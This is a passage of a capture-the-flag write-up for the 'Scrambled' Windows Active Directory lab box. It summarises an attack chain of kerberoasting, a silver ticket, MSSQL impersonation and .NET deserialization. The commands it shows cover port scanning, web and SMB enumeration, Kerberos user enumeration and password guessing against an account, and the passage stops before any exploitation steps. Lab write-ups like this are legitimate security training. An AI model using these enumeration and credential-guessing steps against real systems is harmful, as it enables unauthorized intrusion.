




Box: Windows 
Level: Medium
### Index
1. [Box Info](#Box%20Info)
2. [Initial Nmap Enum](#Initial%20Nmap%20Enum)
3. [Web Enumeration](#Web%20Enumeration)
	1. [GoBuster Results](#GoBuster%20Results)
	2. [`GoBuster File Extension Scan`](#`GoBuster%20File%20Extension%20Scan`)
	3. [`Subdomain Enum`](#`Subdomain%20Enum`)
	4. [`Detailed Nmap Scan for HTTP without Brute`](#`Detailed%20Nmap%20Scan%20for%20HTTP%20without%20Brute`)
4. [SMB Enum](#SMB%20Enum)
	1. [`crackmapexec Module Scan`](#`crackmapexec%20Module%20Scan`)
5. [LDAP Enumeration](#LDAP%20Enumeration)
	1. [`Using windapsearch - Anonymous Bind`](#`Using%20windapsearch%20-%20Anonymous%20Bind`)
6. [Kerberos Enumeration](#Kerberos%20Enumeration)
	1. [`Kerberos User Enum`](#`Kerberos%20User%20Enum`)
	2. [`Trying to get Kerberos TGT`](#`Trying%20to%20get%20Kerberos%20TGT`)
	3. [`Grabbing the ticket for user ksimpson`](#`Grabbing%20the%20ticket%20for%20user%20ksimpson`)
	4. [`List Kerberos Ticket`](#`List%20Kerberos%20Ticket`)
	5. [`smb access using kerberos ticket`](#`smb%20access%20using%20kerberos%20ticket`)
	6. [`Kerberoasting`](#`Kerberoasting`)
	7. [`Cracking krb5tgs`](#`Cracking%20krb5tgs`)
	8. [`Getting NTLM hash from Plain Text`](#`Getting%20NTLM%20hash%20from%20Plain%20Text`)
	9. [`Getting Domain SID using impacket-getPAC`](#`Getting%20Domain%20SID%20using%20impacket-getPAC`)
	10. [`Getting Sliver Ticket for the Administrator User`](#`Getting%20Sliver%20Ticket%20for%20the%20Administrator%20User`)
	11. [`Geting SQL Shell for user sqlsvc`](#`Geting%20SQL%20Shell%20for%20user%20sqlsvc`)
	12. [`Enumerating Database`](#`Enumerating%20Database`)
	13. [`Enumerating Tables from SQL DB`](#`Enumerating%20Tables%20from%20SQL%20DB`)
	14. [`Getting data from SQL DB - Creds for user MiscSvc`](#`Getting%20data%20from%20SQL%20DB%20-%20Creds%20for%20user%20MiscSvc`)
	15. [`Enumeration Impersonation using SQL Shell`](#`Enumeration%20Impersonation%20using%20SQL%20Shell`)
	16. [`Impersonate with Execute as User`](#`Impersonate%20with%20Execute%20as%20User`)
	17. [`Getting Shel As User sqlsvc`](#`Getting%20Shel%20As%20User%20sqlsvc`)
	18. [`Upgrade the shell from sqlsvc to MiscSvc`](#`Upgrade%20the%20shell%20from%20sqlsvc%20to%20MiscSvc`)
7. [Privilege Escalation](#Privilege%20Escalation)
	1. [`PowerCat - File Transfer`](#`PowerCat%20-%20File%20Transfer`)
	2. [`Downloading File over SMB`](#`Downloading%20File%20over%20SMB`)
	3. [`Reverse Engineering EXE and DLL ScrambleClient/ScrambleLib`](#`Reverse%20Engineering%20EXE%20and%20DLL%20ScrambleClient/ScrambleLib`)
	4. [`Preparing Payload using Ysoserial.net`](#`Preparing%20Payload%20using%20Ysoserial.net`)
	5. [`Sending Payload and Getting SYSTEM Shell`](#`Sending%20Payload%20and%20Getting%20SYSTEM%20Shell`)
8.  [Unintended File Read via MSSQL](#Unintended%20File%20Read%20via%20MSSQL)
9. 
### Box Info
```
Scrambled is a medium Windows Active Directory machine. Enumerating the website hosted on the remote machine a potential attacker is able to deduce the credentials for the user `ksimpson`. On the website, it is also stated that NTLM authentication is disabled meaning that Kerberos authentication is to be used. Accessing the `Public` share with the credentials of `ksimpson`, a PDF file states that an attacker retrieved the credentials of an SQL database. This is a hint that there is an SQL service running on the remote machine. Enumerating the normal user accounts, it is found that the account `SqlSvc` has a `Service Principal Name` (SPN) associated with it. An attacker can use this information to perform an attack that is knows as `kerberoasting` and get the hash of `SqlSvc`. After cracking the hash and acquiring the credentials for the `SqlSvc` account an attacker can perform a `silver ticket` attack to forge a ticket and impersonate the user `Administrator` on the remote MSSQL service. Enumeration of the database reveals the credentials for user `MiscSvc`, which can be used to execute code on the remote machine using PowerShell remoting. System enumeration as the new user reveals a `.NET` application, which is listening on port `4411`. Reverse engineering the application reveals that it is using the insecure `Binary Formatter` class to transmit data, allowing the attacker to upload their own payload and get code execution as `nt authority\system`.
```

### Initial Nmap Enum
```
# nmap -p- --min-rate=1000 -Pn scrambled.htb
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
4411/tcp  open  found
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49704/tcp open  unknown
59900/tcp open  unknown
```

```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn scrambled.htb

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Scramble Corp Intranet
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-05 17:28:53Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2024-09-05T17:32:04+00:00; -2s from scanner time.
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC1.scrm.local
| Not valid before: 2022-06-09T15:30:57
|_Not valid after:  2023-06-09T15:30:57
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2024-09-05T17:32:04+00:00; -2s from scanner time.
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC1.scrm.local
| Not valid before: 2022-06-09T15:30:57
|_Not valid after:  2023-06-09T15:30:57
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2024-09-05T17:32:05+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-09-05T17:21:59
|_Not valid after:  2054-09-05T17:21:59
| ms-sql-info: 
|   10.10.11.168:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC1.scrm.local
| Not valid before: 2022-06-09T15:30:57
|_Not valid after:  2023-06-09T15:30:57
|_ssl-date: 2024-09-05T17:32:04+00:00; -2s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC1.scrm.local
| Not valid before: 2022-06-09T15:30:57
|_Not valid after:  2023-06-09T15:30:57
|_ssl-date: 2024-09-05T17:32:04+00:00; -2s from scanner time.
4411/tcp  open  found?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, NCP, NULL, NotesRPC, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|     SCRAMBLECORP_ORDERS_V1.0.3;
|   FourOhFourRequest, GetRequest, HTTPOptions, Help, LPDString, RTSPRequest, SIPOptions: 
|     SCRAMBLECORP_ORDERS_V1.0.3;
|_    ERROR_UNKNOWN_COMMAND;
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49704/tcp open  msrpc         Microsoft Windows RPC
59900/tcp open  msrpc         Microsoft Windows RPC
59925/tcp open  msrpc         Microsoft Windows RPC
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (89%)
Aggressive OS guesses: Microsoft Windows Server 2019 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -2s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-09-05T17:31:29
|_  start_date: N/A

TRACEROUTE (using proto 1/icmp)
HOP RTT      ADDRESS
1   46.79 ms 10.10.14.1
2   90.29 ms scrambled.htb (10.10.11.168)
```


### Web Enumeration

`Server: Microsoft-IIS/10.0`

So the NTLM Auth might be disabled. 


Another domain to notice, `scramblecorp.com` or we can also say that `scramblecorp.local`. We will add it to our hosts file.


Notice the line `....We will reset your password same as your username.`


Notice that we have one user `ksimpson` here.

###### GoBuster Results
```
# gobuster dir -u http://scrambled.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 151] [--> http://scrambled.htb/images/]
/Images               (Status: 301) [Size: 151] [--> http://scrambled.htb/Images/]
/assets               (Status: 301) [Size: 151] [--> http://scrambled.htb/assets/]
/IMAGES               (Status: 301) [Size: 151] [--> http://scrambled.htb/IMAGES/]
/Assets               (Status: 301) [Size: 151] [--> http://scrambled.htb/Assets/]
Progress: 220560 / 220561 (100.00%)
```

Upon accessing this folders, we get `403 - Forbidden - Access Denied`. 

###### `GoBuster File Extension Scan`
```
# gobuster dir -u http://scrambled.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,asp,ini,conf,txt,zip,theme
Nothing Interesting found.
```

###### `Subdomain Enum`
```
# ffuf -H "Host: FUZZ.scrambled.htb" -u http://scrambled.htb/ -mc 200 -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt -fl 84
```
###### `Detailed Nmap Scan for HTTP without Brute`
```
# nmap -p80 --min-rate=1000 --script "http-* and not brute" -sC -sV 10.10.11.168
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-05 21:49 EDT
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-mobileversion-checker: No mobile version detected.
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=scrambled.htb
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://scrambled.htb:80/newuser.html
|     Form id: 
|_    Form action: #
|_http-feed: Couldn't find any feeds.
|_http-slowloris: false
|_http-server-header: Microsoft-IIS/10.0
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
|_http-title: Scramble Corp Intranet
|_http-referer-checker: Couldn't find any cross-domain scripts.
|_http-xssed: No previously reported XSS vuln.
| http-comments-displayer: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=scrambled.htb
|     
|     Path: http://scrambled.htb:80/passwords.html
|     Line number: 30
|     Comment: 
|         <!-- Text -->
|     Path: http://scrambled.htb:80/newuser.html
|     Line number: 24
|     Comment: 
|         <!-- Main -->
|     Path: http://scrambled.htb:80/assets/css/main.css
|     Line number: 2649
|     Comment: 
|         /* Section/Article */
|     Path: http://scrambled.htb:80/assets/css/main.css
|     Line number: 3227
|     Comment: 
|         /* Nav */
|     Path: http://scrambled.htb:80/assets/css/main.css
|     Line number: 3088
|     Comment: 
|         /* Header */
|     Path: http://scrambled.htb:80/assets/css/main.css
|     Line number: 136
|     Comment: 
|         /* Type */
|     Path: http://scrambled.htb:80/assets/css/main.css
|     Line number: 1818
|     Comment: 
|         /* Box */
|     Path: http://scrambled.htb:80/newuser.html
|     Line number: 12
|     Comment: 
|         <!-- Wrapper -->
|     Path: http://scrambled.htb:80/newuser.html
|     Line number: 97
|     Comment: 
|         <!-- Scripts -->
|     
|     Path: http://scrambled.htb:80/newuser.html
|     Line number: 27
|     Comment: 
|         <!-- Content -->
|     
|     Path: http://scrambled.htb:80/assets/js/jquery.scrollex.min.js
|     Line number: 1
|     Comment: 
|         /* jquery.scrollex v0.2.1 | (c) @ajlkn | github.com/ajlkn/jquery.scrollex | MIT licensed */
|     
|     Path: http://scrambled.htb:80/assets/css/main.css
|     Line number: 2510
|     Comment: 
|         /* Actions */
|     
|     Path: http://scrambled.htb:80/assets/css/main.css
|     Line number: 2632
|     Comment: 
|         /* Icons */
|     
|     Path: http://scrambled.htb:80/assets/css/main.css
|     Line number: 3698
|     Comment: 
|         /* Footer */
|     
|     Path: http://scrambled.htb:80/assets/css/main.css
|     Line number: 3350
|     Comment: 
|         /* Main */
|     
|     Path: http://scrambled.htb:80/assets/css/main.css
|     Line number: 350
|     Comment: 
|         /* Row */
|     
|     Path: http://scrambled.htb:80/assets/css/main.css
|     Line number: 2379
|     Comment: 
|         /* Image */
|     
|     Path: http://scrambled.htb:80/assets/js/browser.min.js
|     Line number: 1
|     Comment: 
|         /* browser.js v1.0 | @ajlkn | MIT licensed */
|     
|     Path: http://scrambled.htb:80/assets/css/main.css
|     Line number: 3779
|     Comment: 
|         /* Wrapper */
|     
|     Path: http://scrambled.htb:80/assets/js/jquery.min.js
|     Line number: 1
|     Comment: 
|         /*! jQuery v3.4.1 | (c) JS Foundation and other contributors | jquery.org/license */
|     
|     Path: http://scrambled.htb:80/assets/js/util.js
|     Line number: 3
|     Comment: 

|     Path: http://scrambled.htb:80/assets/js/jquery.scrolly.min.js
|     Line number: 1
|     Comment: 
|         /* jquery.scrolly v1.0.0-dev | (c) @ajlkn | MIT licensed */
|     
|     Path: http://scrambled.htb:80/assets/css/main.css
|     Line number: 2811
|     Comment: 
|         /* Features */
|     
|     Path: http://scrambled.htb:80/assets/css/main.css
|     Line number: 2433
|     Comment: 
|         /* List */
|     
|     Path: http://scrambled.htb:80/assets/js/util.js
|     Line number: 299
|     Comment: 
|     Path: http://scrambled.htb:80/index.html
|     Line number: 42
|     Comment: 
|         <!-- Second Section -->
|     
|     Path: http://scrambled.htb:80/assets/js/href;
|     Line number: 7
|     Comment: 
|     
|     Path: http://scrambled.htb:80/assets/css/main.css
|     Line number: 2005
|     Comment: 
|         /* Form */
|     
|     Path: http://scrambled.htb:80/assets/css/main.css
|     Line number: 2987
|     Comment: 
|         /* Spotlight */
|     
|     Path: http://scrambled.htb:80/assets/js/util.js
|     Line number: 37
|     Comment: 
|     
|     Path: http://scrambled.htb:80/assets/js/util.js
|     Line number: 521
|     Comment: 
|
|     Path: http://scrambled.htb:80/assets/css/main.css
|     Line number: 2878
|     Comment: 
|         /* Statistics */
|     
|     Path: http://scrambled.htb:80/assets/js/breakpoints.min.js
|     Line number: 1
|     Comment: 
|         /* breakpoints.js v1.0 | @ajlkn | MIT licensed */
|     
|     Path: http://scrambled.htb:80/assets/css/main.css
|     Line number: 91
|     Comment: 
|         /* Basic */
|     
|     Path: http://scrambled.htb:80/index.html
|     Line number: 27
|     Comment: 
|         <!-- Introduction -->
|     
|     Path: http://scrambled.htb:80/assets/css/main.css
|     Line number: 2233
|     Comment: 
|         /* Icon */
|     
|     Path: http://scrambled.htb:80/assets/css/main.css
|     Line number: 2724
|     Comment: 
|         /* Table */
|     
|     Path: http://scrambled.htb:80/assets/js/main.js
|     Line number: 1
|     Comment: 
|
|     Path: http://scrambled.htb:80/newuser.html
|     Line number: 14
|     Comment: 
|         <!-- Nav -->
|     
|     Path: http://scrambled.htb:80/assets/css/main.css
|     Line number: 1843
|     Comment: 
|_        /* Button */
| http-fileupload-exploiter: 
|   
|     Couldn't find a file-type field.
|   
|_    Couldn't find a file-type field.
|_http-chrono: Request times for /; avg: 201.83ms; min: 175.25ms; max: 284.11ms
| http-traceroute: 
|_  Possible reverse proxy detected.
|_http-fetch: Please enter the complete path of the directory to save data in.
| http-vhosts: 
|_128 names had status 200
| http-headers: 
|   Content-Length: 2313
|   Content-Type: text/html
|   Last-Modified: Thu, 04 Nov 2021 18:13:14 GMT
|   Accept-Ranges: bytes
|   ETag: "3aed29a2a7d1d71:0"
|   Server: Microsoft-IIS/10.0
|   Date: Fri, 06 Sep 2024 02:19:26 GMT
|   Connection: close
|   
|_  (Request type: HEAD)
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 1; html: 6
|     /assets/css/
|       css: 2
|     /assets/js/
|       js: 7
|     /images/
|       png: 2
|   Longest directory structure:
|     Depth: 2
|     Dir: /assets/js/
|   Total files found (by extension):
|_    Other: 1; css: 2; html: 6; js: 7; png: 2
|_http-date: Fri, 06 Sep 2024 01:49:23 GMT; -1s from local time.
| http-grep: 
|   (1) http://scrambled.htb:80/supportrequest.html: 
|     (1) email: 
|_      + support@scramblecorp.com
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-useragent-tester: 
|   Status for browser useragent: 200
|   Allowed User Agents: 
|     Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
|     libwww
|     lwp-trivial
|     libcurl-agent/1.0
|     PHP/
|     Python-urllib/2.5
|     GT::WWW
|     Snoopy
|     MFC_Tear_Sample
|     HTTP::Lite
|     PHPCrawl
|     URI::Fetch
|     Zend_Http_Client
|     http client
|     PECL::HTTP
|     Wget/1.13.4 (linux-gnu)
|_    WWW-Mechanize/1.34
|_http-errors: Couldn't find any error pages.
|_http-malware-host: Host appears to be clean
|_http-dombased-xss: Couldn't find any DOM based XSS.
```
Nothing interesting other than possible CSRF on the `newuser.html` page.

### SMB Enum
```
└─# netexec smb 10.10.11.168 -u Guest -p "" --shares
SMB         10.10.11.168    445    10.10.11.168     [*]  x64 (name:10.10.11.168) (domain:10.10.11.168) (signing:True) (SMBv1:False)
SMB         10.10.11.168    445    10.10.11.168     [-] 10.10.11.168\Guest: STATUS_NOT_SUPPORTED 
```

###### `crackmapexec Module Scan` 
```
# crackmapexec smb 10.10.11.168 -M zerologon -u Guest -p '' --shares
SMB         10.10.11.168    445    10.10.11.168     [*]  x64 (name:10.10.11.168) (domain:10.10.11.168) (signing:True) (SMBv1:False)
SMB         10.10.11.168    445    10.10.11.168     [-] 10.10.11.168\Guest: STATUS_NOT_SUPPORTED 
```
You can list the module options as follows
```
# crackmapexec smb -M enum_dns --options
[*] enum_dns module options:
    DOMAIN             Domain to enumerate DNS for. Defaults to all zones.

# crackmapexec smb 10.10.11.168 -M ntlmv1 -u Guest -p '' 
SMB         10.10.11.168    445    10.10.11.168     [*]  x64 (name:10.10.11.168) (domain:10.10.11.168) (signing:True) (SMBv1:False)
SMB         10.10.11.168    445    10.10.11.168     [-] 10.10.11.168\Guest: STATUS_NOT_SUPPORTED 
```

### LDAP Enumeration
```
# nmap -p389 --min-rate=1000 -sT -T2 -sC -sV -Pn -A scrm.local0
PORT    STATE SERVICE VERSION
389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2024-09-06T03:31:50+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC1.scrm.local
| Not valid before: 2024-09-06T01:10:42
|_Not valid after:  2025-09-06T01:10:42
```

###### `Using windapsearch - Anonymous Bind`
```
# python3 windapsearch.py -d scrm.local0 --dc-ip 10.10.11.168 --functionality 
[+] No username provided. Will try anonymous bind.
[+] Using Domain Controller at: 10.10.11.168
[+] Getting defaultNamingContext from Root DSE
[+]     Found: DC=scrm,DC=local
[+] Functionality Levels:
[+]      domainControllerFunctionality: 2016
[+]      forestFunctionality: 2016
[+]      domainFunctionality: 2016
[+] Attempting bind
[+]     ...success! Binded as: 
[+]      None
[*] Bye!
```

### Kerberos Enumeration

###### `Kerberos User Enum`
```
# nmap -p88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='scrm.local0',userdb=/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt" -A 10.10.11.168

Nothing Interesting
```

But I tried This[ KerBrute GitHub Repo](https://github.com/ropnop/kerbrute) and found two valid users that I know of.
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Tools]
└─# ./kerbrute_linux_386 userenum --dc DC1.scrm.local -d scrm.local ../../Downloads/Scrambled.htb/userfile 

2024/09/06 00:13:38 >  Using KDC(s):
2024/09/06 00:13:38 >   DC1.scrm.local:88

2024/09/06 00:13:38 >  [+] VALID USERNAME:       ksimpson@scrm.local
2024/09/06 00:13:38 >  Done! Tested 1 usernames (1 valid) in 0.035 seconds

┌──(root㉿kali)-[/home/ringbuffer/Downloads/Tools]
└─# ./kerbrute_linux_386 userenum --dc DC1.scrm.local -d scrm.local /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt 

2024/09/06 00:13:58 >  Using KDC(s):
2024/09/06 00:13:58 >   DC1.scrm.local:88

2024/09/06 00:13:58 >  [+] VALID USERNAME:       administrator@scrm.local
2024/09/06 00:13:58 >  Done! Tested 17 usernames (1 valid) in 0.073 seconds
```

```
# impacket-getTGT -no-pass -k -dc-ip 10.10.11.168 'scrm.local/ksimpson' 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)
```

```
# impacket-GetNPUsers -request scrm.local/ksimpson -no-pass -dc-ip 10.10.11.168              
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for ksimpson
[-] User ksimpson doesn't have UF_DONT_REQUIRE_PREAUTH set
```

But then i recall that `...We will reset your password same as your username`. Let's try this out for our user `ksimpson`.

```
# impacket-GetNPUsers scrm.local/ksimpson:ksimpson -dc-ip 10.10.11.168 -request  
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Cannot authenticate ksimpson, getting its TGT
[-] User ksimpson doesn't have UF_DONT_REQUIRE_PREAUTH set
```

###### `Trying to get Kerberos TGT`
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Tools]
└─# impacket-GetNPUsers scrambledcorp.local/ksimpson:ksimpson -request -dc-ip 10.10.11.168
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Cannot authenticate ksimpson, getting its TGT
[-] Kerberos SessionError: KDC_ERR_WRONG_REALM(Reserved for future use)

┌──(root㉿kali)-[/home/ringbuffer/Downloads/Tools]
└─# impacket-GetNPUsers scrambled.local/ksimpson:ksimpson -request -dc-ip 10.10.11.168
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Cannot authenticate ksimpson, getting its TGT
[-] Kerberos SessionError: KDC_ERR_WRONG_REALM(Reserved for future use)

┌──(root㉿kali)-[/home/ringbuffer/Downloads/Tools]
└─# impacket-GetNPUsers scrm.local/ksimpson:ksimpson -request -dc-ip 10.10.11.168
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Cannot authenticate ksimpson, getting its TGT
